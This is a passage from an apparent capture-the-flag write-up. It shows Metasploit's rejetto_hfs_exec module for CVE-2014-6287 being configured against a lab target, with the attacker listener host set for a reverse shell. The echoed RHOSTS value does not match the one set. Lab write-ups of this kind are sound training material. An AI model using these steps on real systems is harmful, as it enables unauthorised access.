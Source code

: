 
So, the answer is **2014-6287**.


#### 4. Use Metasploit to get an initial shell. What is the user flag?

We start Metasploit.
```
msfconsole
```

And we search the CVE 2014-6287:
![CVE 2014-6287](/assets/img/posts/steel-mountain/msf_CVE-2012-6287.png)

We view the options:
![CVE 2014-6287 Exploit Options](/assets/img/posts/steel-mountain/options_exploit.png)

And we set the needed options:
```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.26.74
RHOSTS => 10.10.17.123
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.8.80.159
LHOST => 10.8.80.159
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
```
